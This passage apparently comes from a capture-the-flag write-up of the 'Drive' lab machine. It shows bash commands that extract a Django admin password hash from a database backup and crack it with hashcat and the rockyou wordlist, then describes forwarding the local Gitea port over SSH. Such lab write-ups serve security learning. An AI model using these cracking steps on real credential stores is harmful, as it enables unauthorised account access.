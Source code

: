 ```bash
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372' | awk -F '|' '{print $5" "$2}' | tr ' ' ':' > hashes

7z l \*.7z
# More databases!!

7z x 01_Mar_db_backup.sqlite3.7z
# :(

hashcat --help
hashcat --example-hashes | grep -i 'django' -A 3 -B 2
#     --> Hash mode #124
hashcat -a 0 -m 124 /usr/share/wordlists/rockyou.txt backups/hashes
#     separator!!! :(
hashcat -a 0 -m 124 --username /usr/share/wordlists/rockyou.txt backups/hashes
#     :(      Order!!

hashcat -a 0 -m 124 --user hashes /usr/share/wordlists/rockyou.txt
#     First hash then wordlists!?
hashcat -a 0 -m 124 --user hashes --show
#     credential!
```

<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_034.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_035.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_036.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_037.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_038.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_039.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_040.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the new credentials I try to sign in to the **DoodleGrive** service, migrate the user on the victim machine, but they don't work. I remember that **Gitea** was running in background, and I confirm with `netstat` that the default port it uses (**3000**) is open. With `curl` I make a request to the **HTTP** service on port **3000** and I can see the **Gitea** system's own content. I can create a **Local Port Forwarding** with **[Chisel](https://github.com/jpillora/chisel){:target="_blank"}** but as I have already [established a session with **SSH**](https://unix.stackexchange.com/questions/697825/add-port-forwarding-to-a-running-ssh-session){:target="_blank"}, I will do it faster using the command line but I do not have it enabled, I correct this inconvenience ([Error SSH Commandline disable session](https://linuxthings.co.uk/blog/openssh-commandline-disabled-fix){:target="_blank"}) and I already have access to the port from my attacking machine. I check with `nmap` and `lsof` that everything is working correctly, I access from my browser but if I use the credentials I found with `hashcat` they do not work.
